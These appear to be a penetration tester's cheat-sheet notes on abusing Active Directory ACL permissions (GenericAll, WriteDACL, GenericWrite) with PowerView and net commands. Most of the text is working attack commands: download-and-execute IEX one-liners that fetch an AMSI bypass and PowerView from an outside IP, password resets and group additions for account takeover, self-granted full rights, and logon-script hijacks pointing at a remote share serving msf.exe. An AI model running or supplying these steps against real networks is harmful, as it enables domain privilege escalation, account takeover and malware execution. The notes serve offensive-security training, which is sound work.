 ### Theory
    - See diagram:  https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#activedirectory
    - DACLs & ACEs - first match principle; ACE structure as SDDL - ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
        - apply to users, computers, groups, etc.
    - Abusable Permissions:
        - GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
        - GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
        - WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
        - WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
        - AllExtendedRights - ability to add user to a group or reset password; abused with - Set-DomainUserPassword or Add-DomainGroupMember
        - ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword
        - Self (Self-Membership) - ability to add yourself to a group
        - AddMembers - abused with Add-DomainGroupMember
        - **Many More**

### Enumeration with PowerView
    - Any domain user can query DACL for any object
    - . .\powerview.ps1
    - (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
    - (new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerView.ps1') | IEX
    - Get-ObjectAcl -Identity <user/computer/thing>; ConvertFrom-SID "S........."
        - Better:  Get-ObjectAcl -Identity <user/computer/thing> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
    - **Domain Users we have rights over:**  Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
    - **Domain Groups we have rights over:**  Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

### Other Tools
    - Checking individual objects - aced.py:
        - python3 aced.py prod.abc.com/user:pass@192.168.1.70
        - "Domain Admins", etc.
    - **BloodHound - Use it!**

### Abusing GenericAll
    - User - change password:  net user testservice1 h4x /domain
        - Also possible if you have ForceChangePassword or AllExtendedRights right
    - Group - add yourself:  net group testgroup <user> /add /domain
        - Also possible with AllExtendedRights or GenericWrite

### Abusing WriteDACL
    - User:
        - Step 1 - give yourself rights:  Add-DomainObjectAcl -TargetIdentity testservice2 PrincipalIdentity offsec -Rights All
            - Confirm:  Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
        - Step 2 - use rights (change pw):  net user testservice2 h4x /domain
    - Group:
        - Step 1 - give yourself rights:  Add-DomainObjectAcl -TargetIdentity "MAILADMINS" -PrincipalIdentity SqlSvc -Domain tricky.com -Rights All -Verbose
        - Step 2 - use rights (add yourself):  Add-DomainGroupMember -Identity MAILADMINS -Domain TRICKY.com -Members SqlSvc

### Abusing GenericWrite
    - User: overwrite logon script
        - Set-ADObject -SamAccountName TestService3 -PropertyName scriptpath -PropertyValue "\\192.168.45.210\share\run.txt"
        - Set-DomainObject TestService3 -Set @{'msTSTnitialProgram'='\\192.168.45.210\share\msf.exe'} -Verbose
        - Set-DomainObject TestService3 -Set @{'scriptPath'='\\192.168.45.210\share\msf.exe'} -Verbose
    - Group: add user (yourself)
    - Computer: Resource-Based Constrained Delegation Attack...